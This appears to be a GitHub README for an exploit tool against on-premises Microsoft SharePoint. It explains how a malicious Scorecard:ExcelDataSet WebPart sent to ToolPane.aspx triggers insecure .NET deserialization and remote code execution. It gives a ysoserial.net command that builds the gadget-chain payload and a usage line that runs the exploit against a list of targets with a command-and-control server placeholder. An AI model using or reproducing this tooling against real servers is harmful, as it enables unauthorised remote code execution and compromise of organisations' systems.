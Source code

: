 # SharePoint WebPart Injection Exploit Tool

### Exploit Tool for SharePoint's ToolPane.aspx WebPart Injection Vulnerability

* **Component**: Microsoft SharePoint (on-prem)
* **Endpoint**: `/layouts/15/ToolPane.aspx`
* **Vulnerable Parameter**: `MSOTlPn_DWP`
* **Exploited Object**: `<Scorecard:ExcelDataSet CompressedDataTable="...">`
* **Vulnerability Class**: Insecure deserialization (gadget chain)

## How It Works

1. Authenticated users can send POST requests to `/ToolPane.aspx?DisplayMode=Edit`.
2. WebParts defined via the `MSOTlPn_DWP` parameter are parsed as XML and instantiated.
3. By injecting a malicious `Scorecard:ExcelDataSet` WebPart, you can load compressed (deflated) serialized .NET objects.
4. These are then deserialized by internal SharePoint code using unsafe deserializers like `BinaryFormatter`.
5. By chaining gadgets (e.g., `LosFormatter`, `ObjectDataProvider`), remote code execution can be achieved.

## Requirements

* Python 3.x
* `requests`, `urllib3`, `termcolor`
* A payload file generated via a .NET gadget chain (e.g., using `ysoserial.net`)

## ysoserial.net

Generate test payloads using the awesome [ysoserial.net](https://github.com/pwntester/ysoserial.net):
ttps/tools/microsoft/ysoserial.net

```bash
ysoserial.exe -f LosFormatter -g ObjectDataProvider -o base64 -c "calc.exe"
```

Then compress with GZIP and embed in the DWP field.

## Payload Structure

Payload is expected to be:

* A GZIP-compressed serialized `.NET DataSet` object
* Embedded in the `CompressedDataTable` property inside an XML WebPart

The payload chain can include types like:

* `System.Data.DataSet`
* `System.Data.Services.Internal.ExpandedWrapper`
* `System.Web.UI.LosFormatter`
* `System.Windows.Data.ObjectDataProvider`

More info: [Reference Payload](https://gist.githubusercontent.com/gboddin/6374c04f84b58cef050f5f4ecf43d501)

## Example Usage

```bash
python3 exploit.py -t targets.txt --file payload.txt  --c2 http://YOUR_C2_SERVER:8000  --proxy http://127.0.0.1:8080
```

